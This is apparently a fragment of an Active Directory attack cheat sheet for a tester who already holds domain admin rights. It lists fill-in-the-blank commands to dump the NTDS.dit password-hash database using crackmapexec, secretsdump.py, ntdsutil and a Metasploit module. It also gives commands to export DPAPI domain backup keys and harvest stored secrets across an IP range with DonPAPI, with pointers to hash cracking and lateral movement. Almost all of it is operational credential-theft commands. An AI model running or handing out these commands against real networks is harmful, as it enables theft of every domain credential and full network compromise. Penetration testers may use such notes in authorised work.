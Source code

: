 ### Domain Admin


Domain admin
	🔥dump ntds.dit
		cme smb <dcip> -u <user> -p <password> -d <domain> --ntds
		secretsdump.py '<domain>/<user>:<pass>'@<ip>
		ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
			secretsdump.py  -ntds ntds_file.dit -system SYSTEM_FILE -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
		windows/gather/credentials/domain_hashdump
		
			Lateral move
			Crack Hash
	dpapi.py backupkeys -hashes ':<hash>' -t Administrator@<dc_ip> --export  
# note : dpapi.py != DonPAPI
		DonPAPI -pvk <domain_backupkey.pvk> - H ':<hash>' <domain>/<user>@<ip_range>
	Credentials

